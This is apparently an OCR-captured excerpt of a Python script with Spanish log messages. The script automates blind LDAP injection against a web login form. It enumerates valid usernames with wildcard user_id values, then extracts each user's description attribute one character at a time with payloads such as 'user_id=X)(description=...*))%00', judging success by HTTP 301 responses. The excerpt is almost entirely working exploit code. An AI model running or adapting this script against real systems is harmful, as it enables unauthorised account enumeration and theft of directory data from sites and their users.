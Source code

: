````python
        for position in range(0, 15):
            for character in characters:

                post_data = "user_id={}{}{}*&password=*&login=1&submit=Submit" .format(first_character,user,character)
            
                r = requests.post(main_url, data=post_data, headers=headers, allow_redirects=False)

                if r.status_code == 301:
                    user += character
                    break # TODO --> BREAK HERE

        valid_users.append(first_character + user)    

    print("\n")

    for user in valid_users:
        log.info("Usuario válido encontrado %s" % user)

    print("\n")

    return valid_users

def getDescription(user):

    characters = string.ascii_lowercase + ' '

    headers = {'Content-Type':'application/x-www-form-urlencoded'}

    description = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando proceso de fuerza bruta")
    time.sleep(2)

    p2 = log.progress("Descripción")

    for posistion in range(0,50):
        for character in characters:
            post_data = "user_id={})(description={}{}*))%00&password=*&login=1&submit=Submit" .format(user, description, character)

            r = requests.post(main_url, data=post_data, headers=headers, allow_redirects=False)

            if r.status_code == 301:
                description += character
                p2.status(description)
                break # TODO BREAK HERE

    p1.success("Proceso de fuerza bruta concluido")
    p2.success("La descripción del usuario %s es: %s" % (user, description))

    print("\n")

if __name__ == '__main__':
    
    initial_users = getInitialUsers()
    valid_users = getUsers(initial_users)

    for i in range(0, 4):
        getDescription(valid_users[i])


````